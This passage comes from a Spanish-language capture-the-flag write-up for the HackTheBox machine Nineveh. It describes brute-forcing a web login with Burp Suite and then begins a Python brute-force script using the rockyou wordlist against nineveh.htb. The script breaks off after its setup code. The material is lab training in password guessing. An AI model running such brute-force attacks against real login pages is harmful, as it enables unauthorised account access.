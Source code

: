         ```{r, echo = FALSE, fig.cap="nineveh sniper fetch response", out.width="90%"}
        knitr::include_graphics("images/notebook-fetch-response.png")
        ```

lo dejamos un ratito y ya podemos ver que filtrando por esta columna vemos una linea donde no esta escrito esto. Ya tenemos la contraseña.
![otebook-fetch-resose](/assets/images/notebook-fetch-response.png) 

### Bruteforcear la contraseña con python {-}

Este seria la manera de hacer, lo que hemos echo con Burpsuite pero en python. El script nos viene del compañero s4dbrd.

```python
#!/usr/bin/python3

import requests
import pdb
import sys
import signal

from pwn import *

# Variables Globales
login_url = 'http://nineveh.htb/department/login.php'


f = open("rockyou.txt", "r")

def def_handler(sig, frame):
    print("\n\nSaliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def bruteForce():
```